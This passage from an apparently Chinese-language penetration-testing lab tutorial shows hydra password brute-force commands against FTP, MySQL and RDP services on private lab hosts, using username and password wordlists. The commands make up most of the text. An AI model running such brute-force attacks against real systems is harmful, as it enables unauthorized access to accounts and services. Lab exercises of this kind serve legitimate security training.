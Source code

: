 ## 3.3.**FTP协议爆破**

由于FTP协议爆破和SSH协议爆破基本一致，这里就演示具体的爆破手法了，直接放命令吧。

```
不知账号命令：hydra -L user.txt -P passwd.txt -t 2 -vV -e ns 192.168.10.30 ftp 

知道账号命令：hydra -l root -P passwd.txt -t 2 -vV -e ns 192.168.10.30 ftp 
```



## 3.4.**数据库爆破**

### 3.4.1.**靶机信息**

Kail攻击机：192.168.10.20

windows10靶机：192.168.10.150

### 3.4.2.**开始爆破**

这里我也不分知不知道账号了，这里假设我们知道账号是root。

```
命令：hydra -l root -P passwd.txt -t 6 -vV -e ns 192.168.10.150 mysql
```

![img](assets/wps5-1690339415758-5.jpg) 

## 3.5.**远程桌面爆破**

### 3.5.1.**靶机信息**

Kail攻击机：192.168.10.20

windows10靶机：192.168.10.150

### 3.5.2.**开始爆破**

远程桌面爆破这里可以设定用户名也可以不设定用户名，我在爆破测试的时候，发现当爆破出账号密码后，会继续爆破，但是会出报错，暂时不知道情况，不知道是不是为了爆破出更多的账号密码。

这里我也不区分有没有账号了。

```
命令：hydra -L user.txt -P passwd.txt -t 6 -vV -e ns 192.168.10.150 rdp 
```
